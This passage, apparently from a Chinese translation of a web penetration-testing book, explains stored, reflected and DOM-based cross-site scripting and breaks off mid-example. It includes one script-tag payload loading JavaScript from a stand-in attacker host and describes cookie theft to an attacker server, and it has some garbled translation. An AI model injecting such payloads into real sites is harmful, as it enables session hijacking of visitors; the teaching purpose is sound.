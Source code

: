 XSS 的主要目的是在受害者的浏览器上执行 JavaScript，但根据网站的设计和目的，有不同的实现方式。XSS 有三大类：

*   持久 XSS
*   脚本漏洞
*   domxss

## 持续性 XSS

这种形式的跨站点脚本也称为存储 XSS。当注入的数据存储在 Web 服务器或服务器端的数据库上，并且应用程序将其返回给用户而无需验证时，XSS 缺陷称为持久 XSS。如果攻击者的目标是感染网站的每一位访问者，他将使用持续的 XSS 攻击，这将使他或她能够大规模利用该网站。

持久 XSS 缺陷的典型目标如下：

*   基于 Web 的讨论论坛
*   社交网站
*   新闻网站

持久 XSS 被认为比其他 XSS 缺陷更严重，因为攻击者的恶意脚本会自动注入受害者的浏览器。这不需要网络钓鱼攻击来引诱用户点击链接。攻击者将恶意脚本上传到易受攻击的网站，并在正常浏览活动中发送到受害者的浏览器。在持久 XSS 中，您还可以直接从远程服务器导入 JavaScript 文件。注入时，以下代码将查询远程服务器以执行 JavaScript：

```
<script type="text/javascript" src=http://evil.store/malicious.js></script>
```

下图显示了易受持久 XSS 攻击的 web 应用程序的示例。该应用程序是一个在线论坛，用户可以在其中创建帐户并与其他人进行交互。应用程序将用户配置文件与其他详细信息一起存储在数据库中。攻击者发现应用程序未能清理 comments 部分中提供的数据，并利用此机会在该字段中添加恶意 JavaScript。此 JavaScript 存储在 web 应用程序的数据库中。在正常浏览期间，当无辜的受害者查看这些评论时，JavaScript 会在受害者的浏览器上执行，该浏览器会抓取 cookie 并将其发送到攻击者控制下的远程服务器：

![Persistent XSS](../Images/image01164.jpeg)

## 反射 XSS

反射 XSS 也被称为非持久 XSS。在这种形式的攻击中，恶意脚本是受害者对 web 应用程序请求的一部分，应用程序会以响应的形式将其反映出来。这看起来很难利用，因为用户不愿意向服务器发送恶意脚本，但有几种方法可以欺骗用户对其自己的浏览器发起反射 XSS 攻击。

反射 XSS 主要用于黑客部署包含恶意脚本和 URL 的钓鱼电子邮件的定向攻击，或者攻击可能涉及在公共网站上发布链接并诱使用户单击。这些方法，再加上缩短 URL 并隐藏长而奇怪的脚本的 URL 缩短服务，会在受害者的脑海中引起怀疑，可以用来执行反射 XSS 攻击，并取得巨大成功。

如下图所示，受害者被诱骗单击一个 URL，该 URL 将脚本传递给应用程序，然后在未经适当验证的情况下将其反射回来：

![Reflected XSS](../Images/image01165.jpeg)

## 基于 DOM 的 XSS

第三种类型的跨站点脚本是本地的，直接影响受害者的浏览器。此攻击不依赖发送到服务器的恶意内容。在持久和反射的 XSS 中，脚本包含在服务器的响应中。受害者的浏览器接受它，假设它是网页的合法部分，并在页面加载时执行它。在基于 DOM 的 XSS 中，只执行服务器提供的合法脚本。

越来越多的 HTML 页面是通过在客户端下载 JavaScript 而不是通过服务器生成的。任何时候在不刷新整个页面的情况下更改页面的某个元素时，都会使用 JavaScript 完成。一个典型的例子是提供板球比赛实时更新的网站，定期刷新比分部分。

基于 DOM 的 XSS 利用这种合法的客户端代码执行脚本攻击。基于 DOM 的 XSS 最重要的部分是，合法脚本使用用户提供的输入向用户浏览器上显示的网页添加 HTML 内容。

让我们讨论一个基于 DOM 的 XSS 示例：

1.  假设创建了一个网页，根据 URL 中传递的城市名称显示自定义内容。URL 中的城市名称也会显示在用户浏览器的 HTML 网页中，如下所示：

